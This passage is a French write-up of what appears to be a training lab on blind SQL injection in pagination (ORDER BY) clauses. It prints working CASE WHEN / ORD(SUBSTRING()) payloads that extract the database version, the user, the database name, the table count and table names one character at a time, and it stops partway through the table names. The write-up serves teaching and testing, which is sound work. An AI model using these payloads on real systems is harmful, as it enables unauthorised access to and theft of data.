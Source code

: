 La version de la base de données est "10.11.6-MariaDB".

Une solution plus rapide permettant d'identifier le type de base de données peut être la suivante :&#x20;

```sql
(SELECT (CASE WHEN (VERSION() LIKE '%MariaDB%') THEN username ELSE (SELECT 1 UNION SELECT 2) END))
```

Récupération de l'utilisateur MySQL :&#x20;

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(USER(),1,1))=ORD('s')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(USER(),2,1))=ORD('q')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(USER(),3,1))=ORD('l')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

L'utilisateur MySQL est "sql\_injection\_in\_pagination\_clauses@localhost".

Récupération du nom de la base de données :&#x20;

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(DATABASE(),1,1))=ORD('s')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(DATABASE(),2,1))=ORD('a')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(DATABASE(),3,1))=ORD('l')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

Le nom de la base de donnéest est "sql\_injection\_in\_pagination\_clauses\_database".

Récupération du nombre de tables :&#x20;

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT COUNT(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database'),1,1))=ORD('2')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

La base de données possède deux tables.

Récupération des noms des tables :&#x20;

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 0),1,1))=ORD('u')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```
